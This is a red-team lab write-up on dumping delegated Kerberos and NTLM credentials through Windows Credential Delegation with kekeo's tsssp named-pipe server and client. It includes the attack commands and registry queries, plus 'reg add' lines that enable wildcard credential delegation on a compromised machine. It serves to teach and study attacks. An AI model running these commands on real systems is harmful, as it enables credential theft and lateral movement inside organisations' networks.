




# Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv \(RDP\) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.


Default Password is a currently logged on user's password.




If the Credentials Delegation was enabled as shown below: 



...the machines that are running a termsrv \(RDP\) service would now be allowed to authenticate users who are delegating their credentials. 

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:



## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):


```text
// needs to run as NT SYSTEM
tsssp::server
```



Kekeo on ws01 must be running as NT\SYSTEM for this to work


Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):


```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```




## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:


Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:


```text
// running as ws02\spotless
tsssp::server
```


And connect to it from another console:


```text
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```


Below shows \(left\) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:


## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):


We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:


## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```


Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```


and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```


## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:


```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```


## References





